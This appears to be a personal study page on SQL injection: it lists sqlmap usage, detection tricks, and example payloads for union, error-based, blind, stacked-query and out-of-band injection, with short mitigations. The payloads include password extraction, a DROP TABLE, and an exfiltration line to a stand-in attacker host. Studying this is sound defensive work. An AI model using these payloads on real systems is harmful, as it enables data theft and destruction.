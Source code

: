 # SqlI

## WriteUps

[Tricks](https://www.notion.so/Tricks-24078b2152854f11896181383e961288?pvs=21)

[Portswigger](https://www.notion.so/Portswigger-1e21202e068540619f1f1b0c3802be0a?pvs=21)

**@Mysql**

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

[Information\_schema](https://www.notion.so/Information\_schema-79ab4c7abc2a4892beb49e4c58fc31a8?pvs=21)

## How use Sqlmap

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap -r req.txt --dbs --random-agent --risk 3 --level 5
```

## How SQL Injection Works

At its core, SQLi exploits vulnerabilities in the input validation framework of an application.

When user inputs are not properly sanitized, an attacker can inject malicious SQL queries that the application will execute without question.

This can result in unauthorized access to sensitive information, data manipulation, and even complete control over the database.

### 1. Detection of SQL Injection Vulnerabilities

#### **Reconnaissance** => backend Use + DBMS

Detecting SQL Injection vulnerabilities involves testing for unexpected or unhandled inputs.

Techniques such as submitting single quotes (<mark style="color:red;">`'`</mark>), double quotes (<mark style="color:red;">`"`</mark>), or other SQL control characters can reveal how an application processes input.

Observing error messages or application responses can provide clues about the underlying SQL query structure, indicating potential injection points.

### Entry Point Detection Examples:

* **Confirming with Logical Operations:** Using statements like <mark style="color:red;">**`1' OR '1'='1`**</mark> can help determine if an application is vulnerable by altering the query logic.
* **Timing Attacks:** Introducing deliberate delays (`SLEEP` functions) in queries can help identify blind SQL Injection vulnerabilities by observing response times.

### 2. Exploiting SQL Injection

Once a vulnerability is identified, exploiting it can take various forms depending on the database and the nature of the vulnerability:

> A. _**Union Based SQL Injection:**_

_**Identifying the Number of Columns:**_

Both <mark style="color:red;">**`ORDER BY`**</mark> and <mark style="color:red;">`GROUP BY`</mark> can be exploited to identify the number of columns in the query's result set. This is crucial for constructing a successful <mark style="color:red;">**`UNION SELECT`**</mark> attacks.

**Scenario:** You’ve identified a page that displays user details based on their ID from the URL parameter `?id=1`.

_**Vulnerable SQL Query:**_

```sql
SELECT name, age FROM users WHERE id = $_GET['id'];
```

_**Exploitation**_**:**

```sql
?id=1 UNION SELECT username, password FROM admin_users
```

In this example, the attacker appends a `UNION SELECT` query to retrieve usernames and passwords from an `admin_users` table, bypassing the intended query's limitations.

> B. Error-Based SQL Injection:

It involves generating database errors to extract information from the error messages.

**Scenario:** An application displays detailed error messages when SQL queries fail.

_**Vulnerable SQL Query:**_

```sql
SELECT title, content FROM articles WHERE id = $_GET['id'];
```

_**Exploitation:**_

```sql
?id=1 AND (SELECT COUNT(*) FROM admin_users) = CAST('' AS INTEGER)
```

This payload causes a type conversion error, potentially revealing information about the database structure or data through error messages.

> C. Blind SQL Injection:

No data is transferred from the web application to the attacker, so the attacker sends data to the database, true or false questions, and observes the response.

**Scenario:** The application does not display error messages or query results, but changes in response can be observed.

_**Boolean-Based Exploitation:**_

```sql
?id=1 AND (SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a'
```

This method involves iteratively guessing the password character by character, and observing the application’s behavior (e.g., response time or content changes) to confirm the guess.

_**Time-Based Exploitation:**_

```sql
?id=1 AND IF((SELECT SUBSTRING(password, 1, 1) FROM admin_users WHERE username = 'admin') = 'a', sleep(5), 'false')
```

This payload uses a conditional time delay to confirm the password character, exploiting the database’s response time.

> D. Stacked Queries SQL Injection

**Key Detail:** The database and interface must support multiple queries executed in a single database call.

**Example:**

```
?id=1; DROP TABLE users --
```

Stacked queries allow an attacker to execute additional queries after the initial, legitimate query. This is highly dependent on the database and the programming language’s database driver or ORM the application uses.

> E. Out-of-Band (OOB) SQL Injection

**Key Detail:** The database server must be able to make DNS or HTTP requests to external servers.

**Example:**

```
?id=1; SELECT LOAD_FILE('\\\\\\\\attacker-controlled-server.com\\\\data')
```

OOB techniques rely on the database server’s ability to communicate with external systems, allowing data exfiltration via DNS queries or HTTP requests.

> F. Advanced SQL Injection Techniques

* **Authentication Bypass:** Attackers might inject SQL to bypass login algorithms, often targeting the query logic.**Mitigation:** Employ strong input validation and parameterized queries for authentication mechanisms.
* **Inferential SQL Injection:** Similar to Blind SQLi, this method involves making logical guesses about the data structure and content.**Mitigation:** Use WAFs and ensure applications do not reveal any hints in their responses.
* **Second Order SQL Injection:** Occurs when user input is stored and later executed as a SQL query.**Mitigation:** Always sanitize user inputs, even when they are not immediately used in database queries.
